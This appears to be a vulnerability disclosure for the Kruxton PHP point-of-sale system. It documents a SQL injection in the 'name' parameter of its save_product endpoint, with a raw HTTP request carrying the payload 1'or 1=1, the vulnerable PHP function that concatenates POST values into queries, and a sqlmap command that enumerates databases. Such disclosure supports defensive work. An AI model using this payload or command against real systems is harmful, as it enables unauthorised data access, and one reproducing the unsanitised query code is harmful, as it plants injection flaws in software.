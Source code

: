 Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Deploy the system

The sql injection url: http://172.31.171.96/kruxton/ajax.php?action=save_product Vulnerability trigger parameter: name(post parameter)

The http message is 

```
POST /kruxton/ajax.php?action=save_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
Connection: close

name=1'or 1=1%2
```

sourcecode:

```php
	function save_product(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k => $v){
			if(!in_array($k, array('id','status')) && !is_numeric($k)){
				if($k == 'price'){
					$v= str_replace(',', '', $v);
				}
				if(empty($data)){
					$data .= " $k='$v' ";
				}else{
					$data .= ", $k='$v' ";
				}
			}
		}
		if(isset($status)){
					$data .= ", status=1 ";
		}else{
					$data .= ", status=0 ";
		}
		$check = $this->db->query("SELECT * FROM products where name ='$name' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;
		if($check > 0){
			return 2;
			exit;
		}
		if(empty($id)){
			$save = $this->db->query("INSERT INTO products set $data");
		}else{
			$save = $this->db->query("UPDATE products set $data where id = $id");
		}

		if($save)
			return 1;
	}
```

![image-20230311170341007](https://github.com/paiqian/kruxton/blob/main/static/image-20230311170341007.png)

sqlmap command: 

```
sqlmap -u http://172.31.171.96/kruxton/ajax.php?action=save_product --data "name=1"  -pname --batch --dbs
```

inject result: 

![image-20230311170434640](https://github.com/paiqian/kruxton/blob/main/static/image-20230311170434640.png)
